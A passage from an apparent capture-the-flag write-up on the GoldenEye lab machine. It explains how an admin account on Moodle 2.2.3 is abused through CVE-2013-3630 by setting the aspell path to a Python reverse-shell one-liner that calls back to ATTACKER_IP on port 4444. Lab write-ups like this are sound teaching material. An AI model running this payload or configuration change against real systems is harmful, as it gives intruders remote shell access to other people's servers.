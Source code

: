 ![screenshot31](../assets/images/goldeneye/screenshot31.png)

The admin's account has more privileges and we see that we now have an additional **Site administration** section on the left.

After doing some research online on how we can exploit this version of moodle (v 2.2.3), I found the following [CVE](https://www.cvedetails.com/cve/CVE-2013-3630/).

---

*Moodle through 2.5.2 allows remote authenticated administrators to execute arbitrary programs by configuring the aspell pathname and then triggering a spell-check operation within the TinyMCE editor.*  

---

With this, we can open a reverse shell, allowing us to gain a foothold into the target machine.

To carry out the exploit, we need to update the **aspell path** and the **spell engine**. Both of these settings can be found by typing in 'spell' in the search bar under **Settings**.

* **aspell path**

Let's set the path to the following reverse shell [payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md): 

```
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

* **spell engine**

We also make sure to set the spell engine to 'PSpellShell'.

![screenshot33](../assets/images/goldeneye/screenshot33.png)

